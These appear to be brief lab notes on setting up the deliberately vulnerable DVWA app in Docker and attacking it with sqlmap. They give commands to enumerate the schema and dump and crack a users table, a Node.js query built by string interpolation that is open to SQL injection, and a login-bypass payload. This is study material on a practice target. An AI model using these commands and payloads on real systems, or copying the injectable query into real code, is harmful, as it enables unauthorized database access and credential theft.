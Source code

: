 # directions for sqlmap

## installation
- sudo apt install -y docker.io
- sudo systemctl enable docker --now
- sudo usermod -aG docker $USER
- newgrp docker
- docker run --rm -it -p 80:80 vulnerables/web-dvwa

it is done!!!

## exploitation
sqlmap --url "" --cookie "" --schema --batch
- make sure you include PHPSESSID and security:low for the cookies
sqlmap --url "" --cookie "" --columns -T users --batch
- list the users, shows us the password column
sqlmap --url "" --cookie "" --dump -T users --batch
- uses a dictionary attack for you!

# test injection scripts
connection.query(`SELECT * FROM logins WHERE name="${req.body.username}" AND password="${req.body.password}";`,

- admin
- " OR 1 = 1 OR ""="
